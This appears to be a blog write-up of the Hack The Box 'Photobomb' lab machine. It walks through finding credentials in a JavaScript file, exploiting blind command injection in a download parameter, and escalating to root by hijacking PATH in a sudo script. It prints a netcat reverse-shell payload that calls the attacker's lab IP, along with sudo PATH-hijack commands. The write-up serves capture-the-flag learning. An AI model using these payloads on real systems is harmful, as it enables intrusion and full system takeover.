 ```yaml
---
layout: post
title: Hack The Box - Photobomb Writeup
date: 2024-06-12 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![photobombBadge.png](/assets/img/Photobomb/photobombBadge.png)

## Summary

Inspecting website source code revealed interesting `javascript` file `photobomb.js`. This file contains plain text credentials which grants us access to `/printer` directory. Here we can find download functionality which allows us to download photos from gallery. Intercepting download request with `Burp` and testing parameters reveals that `filetype` parameter is vulnerable to blind command injection. Exploiting this I was able to get reverse shell as user `wizard`. User`wizzard` can run script `/opt/cleanup.sh` with `sudo` privileges. Additionally, `wizard` has `SETENV` which gives him permission to modify certain environment variables like `PATH`.  Inspecting `cleanup.sh` contents revealed that script is running `find` binary without specified path. I was able to leverage this to hijack path with the use of `SETENV` and trick system to execute my own malicious `find` binary which spawned a root shell. 
 
___
## Reconnaissance

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80 |

#### Port 80

##### Technology

```
nginx 1.18.0
```

##### Website

![80.png](/assets/img/Photobomb/80.png)

Clicking on link prompts us for credentials. 

![80.png](/assets/img/Photobomb/80.png)

I tried few default credentials but none of them were valid so I moved on. 
###### Source Code

Inspecting website source code revealed interesting `javascript` file `photobomb.js`.

![80source.png](/assets/img/Photobomb/80source.png)

###### photobomb.js

Looking at the contents of this file we can see comment with plain text credentials for accessing `/printer` directory.

![photobombJS.png](/assets/img/Photobomb/photobombJS.png)

```
pH0t0 : b0Mb!
```

##### /printer directory

With the access to `/printer` directory we are able to download photo from gallery. 

![80printerFinal.png](/assets/img/Photobomb/80printerFinal.png)


___
## Initial Foothold

### Blind Command Injection 

First I intercepted download request using `Burp` to test parameters. Testing `filetype` parameter for command injection throws different error than for other parameters. 

![burpTesting.png](/assets/img/Photobomb/burpTesting.png)

To test if `filetype` parameter is vulnerable to blind command injection I tried this URL encoded payload:

![decoder.png](/assets/img/Photobomb/decoder.png)

![burpRequestPing.png](/assets/img/Photobomb/burpRequestPing.png)

Running `tcpdump` to see all the traffic on my virtual interface revealed incoming `icmp` request from victim host. 

```
sudo tcpdump -i tun0 -vv
```

![tcpdump.png](/assets/img/Photobomb/tcpdump.png)

To further exploit this I used URL encoded reverse shell payload:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.38 7003 >/tmp/f
```

After submitting payload we get reverse shell as user `wizzard`

![reverseShell.png](/assets/img/Photobomb/reverseShell.png)

### Upgrading TTY

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
ctrl + z
```
```
stty raw -echo && fg
```
### User.txt

![userFlag.png](/assets/img/Photobomb/userFlag.png)

## Privilege Escalation

### System Enumeration

We can see that user `wizzard` can run script `/opt/cleanup.sh` with `sudo` privileges. Additionally user has `SETENV` which gives him permission to modify certain environment variables like `PATH`. 

```
sudo -l
```

![sudoL.png](/assets/img/Photobomb/sudoL.png)

Inspecting `cleanup.sh` we can see that path for `find` is not specified which can be abused by hijacking path. 

![cleanup.png](/assets/img/Photobomb/cleanup.png)

First I created new `find` binary in `/tmp` directory. New binary is simple bash script that will spawn shell. 

![find.png](/assets/img/Photobomb/find.png)

Adding permissions to newly created `find` binary. 

```
chmod 777 find
```

User has `SETENV` so we can specify path to `/tmp` by adding `PATH=/tmp:$PATH` to `sudo` command. Now when we run `/opt/cleanup.sh` with `sudo` and `PATH` specified to `/tmp` directory, system will first look for `find` binary in the `/tmp` directory where will find our own malicious `find` binary and execute it with `sudo` privileges.

```
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

![escalation.png](/assets/img/Photobomb/escalation.png)

## Post Exploitation

### Root.txt

![rootFlag.png](/assets/img/Photobomb/rootFlag.png)
